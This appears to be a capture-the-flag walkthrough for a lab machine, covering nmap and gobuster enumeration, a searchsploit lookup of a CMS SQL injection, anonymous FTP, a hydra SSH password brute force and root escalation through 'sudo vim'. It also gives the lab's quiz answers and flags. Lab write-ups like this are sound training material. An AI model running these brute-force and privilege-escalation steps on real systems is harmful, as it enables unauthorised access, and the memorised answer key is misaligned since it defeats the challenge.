




First, run the nmap scan on the target host (Scan all the open port within the target host)


```bash 
nmap -A -T4 -p- <target_ip>
```


We can easily answer: 

```md
How many services are running under port 1000?

-> 2
```

Look at the **higest open port** within the image i provided, we can easily see that **ssh** was the highest one 

```bash
What is running on the higher port?

-> ssh
```

After done active scannning the target host for open port, we next move to enumeration the current open Apache server running port 80 with `gobuster` or `dirb`

```bash 
gobuster dir -u <target_ip> -w /usr/share/dirb/wordlists/common.txt 
```
We can see the browser's directory that being hidden was `/simple`, which also leave us the hint with something related to `simple` or something...


Access the sever with `/simple` dir and we see the running page said: 


acroll down a little with we will see the `CMS` and the version related to the current runnning server

Look it up inthe exploited database with `searchsploit`  

```bash 
searchsploit Cms 2.2.8
```
We found a exploitation that have been found called `CMS Made Simple < 2.2.10 - SQL Injection`, we can easily searchfor the CVE code within the internet and found


```markdown
What's the CVE you're using against the application?

-> CVE-2019-9053
```

```markdown
To what kind of vulnerability is the application vulnerable?
-> SQLI
```


There is another port that open for anonymous login, which is `ftp`, login the target host with port 21 and anonymous username and we have 



We found a `.txt` file within the `pub` directory, we `get` the file from the file server and read it 



And we have the message: 

```bash 
└─$ cat ForMitch.txt                                                  
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```
We can identify the user that have the weak password have username: `mitch`

Running the password cracker using `hydra` or `johntheripper`: 

```bash
hydra -l mitch -P <password_file> ssh://<target_host_ip>:2222
```
And we found the password: 



```bash 
What's the password?
-> secret
```



```bash 
Where can you login with the details obtained?
-> ssh
```
`cat` out the `user.txt` within the current dir we have 

```bash 
What's the user flag?
-> G00d j0b, keep up
```

Look for another user in `/home` directory, we have 

```bash 
Is there any other user in the home directory? What's its name?
-> sunbath
```

Running `sudo -l` to check for `misconfiguration` from root user that we can use for escalate priviledges , we have: 
```bash 
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
mitch@Machine:~$ 
```

As you can see, we can run `vim` with priviledged shell

```bash
What can you leverage to spawn a privileged shell?
-> vim
```
Run the below command:
```bash 
mitch@Machine:~$ sudo vim 

# and then type :!bash to exit with bash script
root@Machine:~# whoami
root
root@Machine:~# 
```

We have successfully escalate the priviledege into highest 

```bash 
# locate at /root/root.txt

What's the root flag?
-> W3ll d0n3. You made it!
```


